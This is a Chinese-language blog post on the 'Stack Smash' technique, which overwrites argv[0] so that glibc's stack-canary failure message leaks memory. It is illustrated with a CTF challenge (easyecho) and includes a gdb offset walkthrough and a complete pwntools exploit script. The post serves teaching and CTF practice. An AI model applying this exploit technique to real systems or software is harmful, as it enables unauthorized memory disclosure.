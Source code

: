 # Stack Smash Attack


## Stack Smash

Stack Smash是一种利用Canary机制本身的缺陷达到信息泄露效果的一种栈溢出利用方式。该方法不需要绕过Canary保护就可以泄露内存或栈中保存的信息。大概原理是：当Canary机制检测到栈溢出时（也就是自身的值被改写的时候），会触发`__stack_chk_fail`函数，这个函数又会调用` __fortify_fail `函数向屏幕上输出一段信息来提示用户检测到栈溢出，随后程序被终止运行。提示的内容如下所示：

![stack smashing detected](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231213162728806.png)

这时我们会发现，这个提示还会输出当前文件的路径，那么我们是否可以利用这个路径带出一些其他东西呢。先来看下`__stack_chk_fail`的源码：

```c
#include <stdio.h>
#include <stdlib.h>


extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn))
__stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}

strong_alias (__stack_chk_fail, __stack_chk_fail_local)
```

`__stack_chk_fail`函数只是调用了`__fortify_fail ("stack smashing detected")`而已，我们继续看`__fortify_fail`的源码：

```c
#include <stdio.h>
#include <stdlib.h>


extern char **__libc_argv attribute_hidden;

void
__attribute__ ((noreturn)) internal_function
__fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
		    msg, __libc_argv[0] ?: "<unknown>");
}
libc_hidden_def (__fortify_fail)
```

`__fortify_fail`函数则是负责调用`__libc_message`输出栈溢出信息。由于每个程序的`argv[0]`变量都存放着程序的名称，那么这个函数就会同时将程序名称打印出来。

值得一提的是，`__libc_argv[0]`也存在于栈上，因此我们借助栈溢出的机会可以同时修改它的值，让它指向我们想要的内存区域。那么最后它就会帮我们泄露内存信息。

> 此漏洞仅限Glibc 2.30及之前的版本，较新的Glibc不再输出argv[0]。

## Exploit

以经典的Stack Smashing题目演示利用手段。题目为2021鹤城杯 easyecho。

实际上在Stack Smashing的利用过程中只需要考虑一件事情，就是找到`__libc_argv[0]`在栈上的位置（相对溢出点的位置），这样我们才能覆盖。其他的一切libc会帮我们完成。

一种方法是直接在栈上找，观察栈上有没有存放着有关程序路径的地方，下面就是一个可疑点：

![path](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231213165508280.png)

此处存放着0x7fffffffde18，而0x7fffffffde18又指向0x7fffffffe0c9，我们发现0x7fffffffe0c9处刚好存放着程序路径。也就是说，**0x7fffffffde18**就是argv[0]。

![argv](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231213165720647.png)

第二种方法直接在gdb上打印`__libc_argv[0]`变量的地址即可。

![print](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231213170056611.png)

最终确定argv[0]在0x7fffffffde18的地址处。

> 为什么一定要获得指向path的地址而不是直接修改path？当然是都可以，但是哪种方便呢？

继续观察溢出点，发现argv[0]在栈上的位置相对于溢出点相差0x7fffffffde18-0x7fffffffdcb0=0x168字节的位置。那么我们填满0x168字节后既可以覆盖到argv[0]。

![image-20231213170527877](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231213170527877.png)

根据题目，flag存放在base + 0x202040的地方（base是程序基址)。于是payload就为：

```python
flag = base + 0x202040
payload = 0x168 * b'A' + p64(flag)
```

由于0x168个字节早就覆盖掉rbp了，因此直接结束程序就可以看到结果：

![pwn](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231213171056246.png)

完整的exp:

```python
from pwn import *
from pwn import p64,u64

context.terminal=['tmux','splitw','-h']
# context.log_level='debug'
elf = ELF('./easyecho')
r = elf.process()
# r = remote('node4.anna.nssctf.cn',28710)

payload = b'A' * 0x10
r.sendafter(b'Name: ',payload)
r.recv(24)
base = u64(r.recv(6).ljust(8,b'\x00')) - 0xcf0
info(hex(base))
# gdb.attach(r)
# pause()
r.sendlineafter(b'Input: ',b'backdoor')
flag = base + 0x202040
payload = 0x168 * b'A' + p64(flag)

r.sendlineafter(b'Input: ',payload)
r.sendlineafter(b'Input: ', b'exitexit')

r.interactive()
```



---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/12/stack_smash/  


